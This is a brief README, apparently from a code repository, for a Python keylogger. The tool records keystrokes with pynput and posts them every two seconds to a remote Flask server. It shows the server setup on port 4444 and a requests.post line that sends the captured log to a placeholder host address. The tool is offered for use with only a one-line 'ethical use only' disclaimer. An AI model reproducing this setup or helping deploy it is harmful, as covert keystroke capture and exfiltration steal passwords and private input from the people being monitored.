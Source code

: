 # Keylogger
It logs keyboard input and sends the keystrokes to a Flask server every 2 seconds. It checks for required packages (pynput and requests), uses pynput to capture key presses, and maps special keys. Ensure ethical use only.

In the server.py file, you can change the port number to your desired value. For example:
if __name__ == '__main__':
    app.run(host='0.0.0.0', port=4444)

and In the main.py file, update the URL in the requests.post call to match the server's IP address and port number. For example:
**try:
    requests.post('http://<host_ip>:<port_number>/log', data={'log': log_data})**
Replace <host_ip> with the server's IP address and <port_number> with the port number specified in your server.py (e.g., 4444).
